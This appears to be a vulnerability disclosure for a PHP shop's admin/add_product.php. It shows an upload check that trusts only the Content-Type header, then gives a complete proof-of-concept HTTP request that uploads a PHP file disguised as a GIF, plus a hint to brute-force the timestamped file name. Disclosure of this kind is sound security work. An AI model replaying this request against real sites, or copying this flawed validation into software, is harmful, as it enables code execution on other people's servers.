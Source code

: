 ### Vulnerability file address

`admin/add_product.php` from line 18,It only restricts the type of the file, and does not restrict the file suffix, and the file type can be bypassed only by modifying the http Content-Type field.

```php
//picture coding
$picture_name=$_FILES['picture']['name'];
$picture_type=$_FILES['picture']['type'];
$picture_tmp_name=$_FILES['picture']['tmp_name'];
$picture_size=$_FILES['picture']['size'];

if($picture_type=="image/jpeg" || $picture_type=="image/jpg" || $picture_type=="image/png" || $picture_type=="image/gif")
{
	if($picture_size<=50000000)
	
		$pic_name=time()."_".$picture_name;
		move_uploaded_file($picture_tmp_name,"../product_images/".$pic_name);
```

### POC

```http
POST /admin/add_product.php HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------254658479040777430842599586609
Content-Length: 1040
Origin: http://www.onsp.net
Connection: close
Referer: http://www.onsp.net/admin/add_product.php
Cookie: PHPSESSID=9g99r79stt08ctlc0nn1s1jci4
Upgrade-Insecure-Requests: 1

-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="product_name"

1
-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="details"

1
-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="picture"; filename="1.php"
Content-Type: image/gif

GIF89a<?php phpinfo(); ?>

-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="price"

1
-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="product_type"


-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="brand"


-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="tags"


-----------------------------254658479040777430842599586609
Content-Disposition: form-data; name="submit"


-----------------------------254658479040777430842599586609--
```

### Attack results pictures

The uploaded php file is prefixed with a 10-digit timestamp, so it needs to be blasted

![image-20220719171259438](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220719171305.png)



![image-20220719171552494](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220719171552.png)